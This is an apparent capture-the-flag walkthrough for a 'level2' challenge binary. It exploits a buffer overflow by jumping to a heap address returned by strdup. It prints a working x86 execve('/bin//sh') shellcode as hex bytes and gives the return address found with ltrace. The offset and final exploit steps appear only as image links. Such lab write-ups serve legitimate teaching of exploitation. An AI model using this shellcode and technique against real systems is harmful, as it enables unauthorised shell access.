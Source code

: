 
# Walkthrough

> **The Goal:**make buffer overflow to launch a shell pogram, the idea is to exploit the heap because the stack it protected
> Filled the buffer then jump to the heap  address to executed the shellcode

1. Get the offset 

![Alt Offset](offset.png)

ex
2. [Shellcode](http://shell-storm.org/shellcode/files/shellcode-575.html)
  `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

3. Return Address
I used `ltrace ./level2` to get the return address of strdup `0x0804a008` 

4. Exploit the buffer overflow 
![Alt Exploit](find.png)
